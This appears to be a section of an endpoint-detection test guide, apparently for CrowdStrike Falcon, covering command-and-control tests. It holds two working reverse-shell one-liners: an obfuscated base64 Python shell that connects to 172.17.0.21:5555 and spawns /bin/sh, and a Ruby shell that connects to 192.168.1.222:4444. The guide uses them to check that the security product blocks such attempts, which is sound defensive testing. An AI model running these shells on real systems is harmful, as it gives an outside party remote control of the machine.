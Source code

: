 ### 4. Command & Control Testing

#### 4.1 Obfuscated Python Script

```bash
#!/bin/bash
# Command_Control_via_Remote_Access-obfuscated
echo -e "\e[92mExecuting Command and Control via Remote Access Tools using obfuscated Python script. A Falcon Prevent action can kill the attempt"
python -c 'import base64;dec=base64.b64decode("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4xNy4wLjIxIiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItIl0pOw==");eval(compile(dec,"<string>","exec"))'
```

**Expected Results:**

![alt text](images/image-6.png)

![alt text](images/image-7.png)

#### 4.2 Ruby Remote Access

```bash
#!/bin/bash
# Command_Control_via_Remote_Access
echo -e "\e[92mExecuting Command and Control via Remote Access Tools using Ruby script. This script will try to connect to 192.168.1.222 and will exit at fork. A Falcon Prevent action can kill the attempt"
ruby -rsocket -e'exit if fork;s=TCPSocket.new("192.168.1.222",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
